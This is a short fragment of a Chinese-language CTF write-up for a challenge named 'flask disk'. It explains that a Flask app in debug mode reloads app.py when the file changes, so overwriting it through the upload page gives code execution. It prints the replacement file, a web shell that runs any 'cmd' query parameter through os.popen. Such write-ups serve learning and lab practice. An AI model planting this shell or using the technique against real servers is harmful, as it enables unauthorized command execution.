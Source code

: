 ```
    print(result)
```

## flask disk

![image-20231211142240283](images/63.png)

一共有三个界面，一个是显示源文件是app.py，一个是上传文件，一个是输入pin码，以为是pin码伪造，但是不是

flask开启了debug模式下，app.py源文件被修改后会立刻加载。

所以只需要上传一个能rce的app.py文件把原来的覆盖，就可以了。

```python
from flask import Flask, request
import os

app = Flask(__name__)


@app.route('/')
def index():
    try:
        cmd = request.args.get('cmd')
        data = os.popen(cmd).read()
        return data
    except:
        pass
    return "1"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=True)

```
